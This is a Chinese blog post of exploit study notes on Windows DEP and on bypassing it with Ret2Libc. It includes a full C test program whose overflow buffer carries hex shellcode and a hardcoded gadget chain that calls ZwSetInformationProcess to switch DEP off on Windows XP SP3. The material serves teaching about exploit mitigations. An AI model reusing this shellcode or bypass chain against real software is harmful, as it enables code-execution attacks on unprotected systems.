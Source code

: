 ```yaml
---
title: 漏洞学习笔记-014-DEP的介绍
description: Windows的DEP保护和简单的攻击方法
date: 2020-11-19 12:42:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-014-DEP的介绍/)

## DEP的介绍

> 溢出攻击的根源是未准确区分数据和代码，但是重新设计计算机结构是不太可能的事情，所以使用各种办法去减缓溢出攻击

### 原理

- 将数据所在的内存页标为不可执行，而程序成功溢出进入shellcode时，CPU将会抛出执行异常
- DEP分为软件DEP和硬件DEP，而软件DEP指的是SafeSEH，硬件DEP在AMD平台上称为No-Execute Page-Protection(NX)，Intel平台上称为Execute Disable Bit(XD)
- 操作系统通过设置内存页的NX和XD标记，来指明不能从此执行代码，PageTable中插入一个标记来标识此页是否运行执行指令，0表示允许，1表示不允许

### DEP的工作状态

- Optin：允许系统组件和服务使用DEP，其它程序将不予保护，而用户可以通过ACT工具标记程序使用DEP，这种保护可以被程序动态关闭，多用于普通用户操作系统
- Output：为排除列表外的程序启用DEP，多用于服务器操作系统
- AlwaysOn：对所有的程序应用DEP保护，不可被关闭，只有64位操作系统才使用此模式
- AlwaysOff：一般不用

### 编译选项

> `/NXCOMPAT`编译选项将在PE头中设置`IMAGE_DLLCHARACTERISTICS_ NX_COMPAT`标识，位于`IMAGE_OPTIONAL_HEADER`中的`DllCharacteristics`，此值为`0x100`时表示启用DEP

## 利用Ret2Libc挑战DEP

### 原理

- DEP保护时溢出失败的原因是DEP检测到代码在非可执行页上执行，如果让程序直接跳转到一个已存在的系统函数中，必然不会被拦截
- `Ret2Libc`是`Return-to-libc`的简写，如果将每条exploit都找到一条在系统lib中的替代品，那么此exp一定可以正确执行，但问题在于不是每条指令都不包含0，不断的跳转容易跳错地方
- 以下是三个可行的方法
  - 跳转到`ZwSetinfomationProcess`函数将DEP关闭，转入shellcode执行
  - 跳转到`VirtualProtect`将shellcode页面设为可执行，随后转入shellcode执行
  - 跳转到`VirtualAlloc`申请一段可执行的内存空间随后跳入shellcode执行

### 尝试ZwSetinfomationProcess关闭DEP

#### 前置内容

- 一个进程的DEP标识存在于`KPROCESS`结构的`_KEXECUTE_OPTION`上，可以通过API函数修改

> `_KEXECUTE_OPTION`结构

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- 当前进程DEP开启的时候，`ExecuteDisable`将会被设置为1
- 当前进程DEP关闭的时候，`ExecuteEnable`将会被设置为1
- `DisableThunkEmulation`为了兼容ATL被设置
- `Permanent`被置1后表示这些标志都不能再被修改
- 我们只要将`_KEXECUTE_OPTIONS`的值设置为`0x02(00000010)`就可以将`ExecuteEnable`置为1

#### shellcode原理

- `LdrpCheckNXCompatibility`函数为了检查DEP兼容性，满足以下条件之一将可以关闭DEP
  - DLL受SafeDisc版权保护系统保护
  - DLL中含有`.aspack`，`.pcle`，`.sforce`等字节的时候
  - DLL存在于注册表声明的不需启用DEP的模块的时候`HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### 代码

> 测试环境：系统：Windows XP SP3，DEP状态：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### 技术细节

- 需要对比al是否为1，所以第一步retn将会返回到`mov eax, 1`，`retn`的地址，此地址将会返回到修缮ebp的位置
- 因为在调用函数之前，会访问ebp中的值，但是它已经被刷写掉了，所以将修缮ebp，在此使用了`push esp`，`pop ebp`，`retn`三条指令将esp中的地址赋值给ebp，由于retn后面跟着数字，因此ebp将会加上这个数字，也就是`ebp+8`，此时ebp小于esp了，一旦调用子程序将会对栈区进行破坏，所以依旧得将ebp再加上一些，我在此选择将esp加上0x24，与之前的0x8凑成了0x30的栈空间，这样在返回的时候将会返回到语句`retn 0x24`
- `retn 0x24`语句在返回的时候将会返回到调用关闭DEP的函数`ZwSetInformationProcess`的地方，调用完毕后将会使用leave语句并retn，因此它将会返回到`jmp esp`的地址处
- 由`jmp esp`跳转到`\x24\xCD\x93\x7C`数据存放的地址处，而此垃圾数据将不会影响shellcode的执行
- 在垃圾数据的后方写入一个跳转即可，至此跳到shellcode真实执行之处
